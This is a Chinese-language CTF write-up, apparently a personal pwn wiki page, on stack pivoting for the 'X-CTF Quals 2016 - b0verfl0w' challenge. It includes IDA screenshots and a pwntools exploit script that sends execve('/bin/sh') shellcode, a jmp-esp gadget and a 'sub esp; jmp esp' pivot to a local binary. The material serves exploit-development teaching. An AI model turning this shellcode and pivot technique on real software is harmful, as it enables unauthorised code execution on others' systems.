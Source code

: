 ```yaml
---
title: 花式栈溢出- stack  pivoting
date: 2020-07-09 13:04:05
updated: 2020-07-09 13:04:05
tags:
    - 花式栈溢出
    - wiki
    - pwn
categories: 
	- 二进制安全
	- wiki-pwn
use:
  - Valine
text: true
lazyload: true
count: true
---
```

# 1.查看

 [X-CTF Quals 2016 - b0verfl0w](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/stackoverflow/stackprivot/X-CTF Quals 2016 - b0verfl0w)

![image.png](https://i.loli.net/2020/11/17/MHlGP2YLzi7R95p.png)

# 2.ida分析

![image.png](https://i.loli.net/2020/11/17/9zPpgxU7dBL3Klw.png)

栈溢出，但是长度有点小，需要转移栈

首先得控制eip到esp

![image.png](https://i.loli.net/2020/11/17/6vxzG3HF1AyhPoq.png)   

然后sub到shellcode的位置jmp后执行shellcode

# 3.编写脚本

```python
#!/usr/bin/env python
#coding=utf-8
from pwn import *
context.log_level = 'debug'

p=process('./b0verfl0w')

shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"                      

payload=shellcode+(0x20-len(shellcode))*'a'+'a'*4

esp=0x08048504
payload+=p32(esp)

sub_esp_jmp = asm('sub esp, 0x28;jmp esp')
payload+=sub_esp_jmp

p.sendline(payload)
p.interactive()
```